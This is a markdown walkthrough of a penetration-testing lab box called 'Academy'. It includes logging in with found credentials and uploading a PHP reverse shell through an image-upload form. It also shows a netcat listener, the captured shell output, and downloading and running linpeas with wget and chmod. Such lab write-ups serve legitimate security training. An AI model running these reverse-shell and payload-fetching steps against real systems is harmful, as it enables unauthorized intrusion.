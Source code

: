 > Found /academy, /phpmyadmin - 200 and /server-status -403

## Browser

- 10.0.2.10 shows default Apache site
- We can log in using the found credentials
  - Reg no : 10201321
  - Password : student
- The profile page allows for uploading an image, lets try a php reverse shell
- Google "php reverse shell"
- download the code from "https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php" and save to 'shell.php'
- edit 'shell.php' set ip to my ip
- start netcat netcat
 ```console
 ┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
 ```
- upload 'shell.php' instead of an image
  
```console
...
connect to [10.0.2.9] from (UNKNOWN) [10.0.2.10] 56682
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 06:46:39 up 14:03,  1 user,  load average: 0.00, 0.02, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                Tue16   43:50   0.28s  0.24s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ hostname
academy
```

> We got a reverse shell but only as 'www-data'

## LinPEAS

- Find the linpeas script `locate linpeas.sh`
- Copy it to a 'transfers' folder and cd into it
- Start a web server with `python3 -m http.server 80` 
- Download the linpeas script `wget http://10.0.2.9/linpeas.sh`
- Change the mode bits / access rights of the script to allow execution `chmod +x linpeas.sh`
- run linpeas `linpeas.sh`

Results : [linpeas results](../../notes/assets/TCM-Sec/Academy/linpease_result.txt)

### Findings
{: .no_toc}

- Vulnerable to CVE-2022-2588
- $mysql_password = "My_V3ryS3cur3_P4ss";
- /etc/password: grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash
